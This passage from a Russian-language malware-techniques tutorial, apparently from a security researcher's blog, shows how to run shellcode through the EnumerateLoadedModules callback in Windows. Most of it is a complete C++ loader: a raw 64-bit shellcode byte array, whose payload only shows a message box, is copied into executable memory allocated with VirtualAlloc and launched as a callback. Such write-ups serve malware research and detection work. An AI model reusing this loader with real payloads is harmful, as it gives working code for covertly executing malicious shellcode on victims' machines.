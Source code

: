 Как можно заметить, наша callback-функция успешно вывела нашу "вредоносную" DLL. Идеально!   

### практический пример 3. запуск шеллкода через callback-функцию.    

Это самый интересный пример. Оказывается, можно запустить шеллкод, используя callback-функцию в этом API:    


```cpp
/*
 * hack3.cpp - run shellcode via EnumerateLoadedModules. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2022/12/21/malware-tricks-25.html
*/
#include <windows.h>
#include <dbghelp.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumerateLoadedModules(GetCurrentProcess(), (PENUMLOADED_MODULES_CALLBACK)mem, NULL);
  return 0;
}
```
